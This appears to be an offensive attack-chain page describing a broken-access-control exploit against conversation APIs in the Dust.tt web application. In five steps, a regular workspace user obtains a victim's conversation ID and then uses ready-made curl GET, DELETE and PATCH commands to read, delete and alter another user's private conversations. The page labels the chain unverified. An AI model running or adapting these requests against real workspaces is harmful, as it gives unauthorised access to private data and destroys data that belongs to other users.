

# Dust.tt Privilege Escalation via Broken Access Control on Conversation APIs

Multi-stage attack chain demonstrating unauthorized access, modification, and deletion of private conversations in Dust.tt workspaces due to missing server-side permission checks on API endpoints.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or API client (e.g., curl)

### Target Environment

- Dust.tt web application
- Authenticated access to a workspace
- No special ports or services required beyond standard HTTPS (443)

### Initial Access Requirements

- Valid credentials for a regular (non-admin) user in the target workspace
- Network access to Dust.tt (https://dust.tt)
- Prior knowledge or ability to enumerate conversation IDs

## Detailed Attack Procedures

### Step 1: Authenticate as Normal User
procedure: [[procedures/Authenticate-to-Dust-tt-Workspace]]

**Objective**: Gain authenticated access to the Dust.tt workspace to obtain session tokens for API requests.

**Instructions**: Log in to Dust.tt using regular user credentials and extract the workspace ID from the application context or browser developer tools.

**Expected Output**: Active session with access to the workspace dashboard; workspace ID visible (e.g., mRHt1cXVmK).

**Success Indicators**:
- Successful login without errors
- Workspace ID retrieved

### Step 2: Obtain Victim Conversation ID
procedure: [[procedures/Obtain-Victim-Conversation-ID]]

**Objective**: Identify the conversation ID of a target user's (e.g., admin's) private thread within the same workspace.

**Instructions**: Use browser inspection or API enumeration to acquire or guess the conversation ID; no specific command needed, but monitor network requests during normal usage.

**Expected Output**: Valid conversation string ID (e.g., conv_abc123) for the victim's thread.

**Success Indicators**:
- Conversation ID obtained
- Confirmation it's from the same workspace

### Step 3: Read the Victim's Conversation
procedure: [[procedures/Read-Unauthorized-Conversation]]

**Objective**: Retrieve private conversation details without ownership verification, compromising confidentiality.

**Instructions**: Use [[commands/curl-dust-read-conversation]] to send a GET request to the API endpoint with the victim's conversation ID.

```bash
curl -X GET "https://dust.tt/api/w/mRHt1cXVmK/assistant/conversations/conv_abc123" -H "Authorization: Bearer YOUR_SESSION_TOKEN" -H "Content-Type: application/json"
```

**Expected Output**: JSON response with conversation details, including owner info, title, visibility, and messages.

**Success Indicators**:
- HTTP 200 response
- Access to private content not owned by the requester

### Step 4: Delete the Victim's Conversation
procedure: [[procedures/Delete-Unauthorized-Conversation]]

**Objective**: Permanently remove the target's conversation, impacting availability.

**Instructions**: Execute [[commands/curl-dust-delete-conversation]] to issue a DELETE request without permission checks.

```bash
curl -X DELETE "https://dust.tt/api/w/mRHt1cXVmK/assistant/conversations/conv_abc123" -H "Authorization: Bearer YOUR_SESSION_TOKEN"
```

**Expected Output**: HTTP 200 or 204 response confirming deletion.

**Success Indicators**:
- Conversation no longer accessible via API or UI
- No error on ownership

### Step 5: Edit the Victim's Conversation
procedure: [[procedures/Edit-Unauthorized-Conversation]]

**Objective**: Modify conversation metadata and content, compromising integrity.

**Instructions**: Send a PATCH request using [[commands/curl-dust-edit-conversation]] to update title and visibility.

```bash
curl -X PATCH "https://dust.tt/api/w/mRHt1cXVmK/assistant/conversations/conv_abc123" -H "Authorization: Bearer YOUR_SESSION_TOKEN" -H "Content-Type: application/json" -d '{"title":"Updated by Attacker","visibility":"unlisted"}'
```

**Expected Output**: Updated JSON response reflecting changes to title and visibility.

**Success Indicators**:
- HTTP 200 response with modified data
- Changes visible in the conversation if re-read

## Attack Chain Summary

### Key Achievements

1. Unauthorized reading of private admin conversations
2. Modification of conversation metadata without detection
3. Permanent deletion of threads owned by others

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[Data Manipulation]] Data Manipulation

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation
- [[Collection]] Collection
- [[Impact]] Impact

---
*Last updated: 2023-10-01T00:00:00Z*
